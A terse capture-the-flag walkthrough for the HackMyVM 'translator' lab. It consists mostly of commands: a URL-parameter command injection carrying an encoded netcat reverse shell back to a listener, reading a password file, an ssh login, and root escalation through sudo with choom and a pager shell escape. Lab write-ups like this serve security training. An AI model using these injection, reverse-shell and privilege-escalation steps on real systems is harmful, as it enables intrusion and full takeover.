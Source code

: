 ```yaml
---
title: "translator - sml"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough
tags:
  - Hacking
  - Walkthrough
  - HackMyVM
  - translator
header:
  overlay_image: /assets/images/pasek-hack.png
---
```

# translator - sml
{: .text-justify}

## 00. Metainfo

|:----|:----|
|Title:|translator|
|Author:|[sml](https://hackmyvm.eu/profile/?user=sml)|
|Release date:|2022-05-12|
|Download from:|[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=translator)|
|Level:|Easy|
|System:|Linux|
|You'll learn:|tricks |

# 00. Beginning
My another shortest entry.
{: .text-justify}
# 01.
## Sending
```bash
curl 'http://172.16.1.121/translate.php?hmv=;mx%20-x%20yzhs%20172.16.1.89%2012345'
```
## Receiving
```bash
nc -lvp 12345
```
# 02. 
```bash
cat /var/www/html/hvxivg
```
## My password is:
```bash
curl 'http://172.16.1.121/translate.php?hmv=Mb+kzhhdliw+rh+zbfie3w4'
```
# 03.
```bash
ssh ocean@http://172.16.1.121
```
# 04.
```bash
sudo -uindia /usr/bin/choom -n 0 -- bash
```
# 05.

```bash
sudo /usr/local/bin/trans -pager less
translator
```
06. Final
```bash
translator
/ˈtranzˌlādər/

(♂) traductor
(♀) traductora

Definiciones de translator
[ English -> Español ]

sustantivo
    (el) traductor
        translator, interpreter, dragoman

translator
    traductor, intérprete
!bash
```
```bash
# sudo /usr/local/bin/trans -pager less
translator
Did you mean: translate
root@translator:/home/ocean# 
```